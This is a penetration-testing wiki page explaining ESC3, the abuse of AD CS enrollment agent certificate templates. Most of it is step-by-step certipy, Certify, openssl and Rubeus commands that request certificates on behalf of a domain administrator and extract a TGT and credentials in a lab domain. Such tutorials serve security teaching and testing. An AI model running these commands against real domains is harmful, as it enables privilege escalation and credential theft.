 ```yaml
---
description: Abusing Misconfigured Enrollment Agent Templates.
---
```


# ESC3

### <mark style="color:yellow;">What is ESC3</mark>

Very similar to ESC1 and ESC2 but uses a different Extended Key Usage (EKU). EKU `Certificate Request Agent` enables a principal to request a certificate on behalf of another user, like an administrator to request a certificate on behalf of another user.

{% stepper %}
{% step %}
**Special template**

AD CS uses a certificate template that includes a specific identifier (OID: 1.3.6.1.4.1.311.20.2.1) for the **Certificate Request Agent** role.
{% endstep %}

{% step %}
**Enrollment Agent Certificate**

* The IT admin (enrollment agent) gets a certificate based on this template.
* This certificate allows them to request certificates for other users.
{% endstep %}

{% step %}
**Signing the Request**

The enrollment agent creates and signs a certificate request (CSR) on behalf of the user using their enrollment agent certificate.
{% endstep %}

{% step %}
**Issuing the Certificate**

The CA verifies the request and issues a certificate for the other user.
{% endstep %}
{% endstepper %}

### <mark style="color:yellow;">ESC3 Abuse from Linux</mark>

Look for a template whose EKU permits using the issued certificate as a `Certificate Request Agent`:

```bash
certipy find -u 'john@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -vulnerable -stdout

# In output
[!] Vulnerabilities
      ESC3                              : 'LAB.LOCAL\\Domain Users' can enroll and template has Certificate Request Agent EKU set
```

#### Authenticate with certificate and get TGT

```bash
# Request for user
certipy req -u 'blwasp@lab.local' -p 'Password123!' -ca 'lab-LAB-DC-CA' -template 'ESC3'

# Request for administrator account
certipy-ad req -u 'blwasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template user -on-behalf-of 'lab\administrator' -pfx blwasp.pfx
```

### <mark style="color:yellow;">ESC3 Abuse from Windows</mark>

Look for a template whose EKU permits using the issued certificate as a `Certificate Request Agent`:

```powershell
# Enumerate
.\Certify.exe find /vulnerable

# Request certificate with ESC3 
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:ESC3

# Convert cert to pfx
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Request certificate on behalf of Administrator
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:User /onbehalfof:LAB\Administrator /enrollcert:cert.pfx

# Convert cert to pfx again
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in admin.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin.pfx

# Get TGT as administrator
.\Rubeus.exe asktgt /user:lab\Administrator /certificate:admin.pfx /getcredentials
```
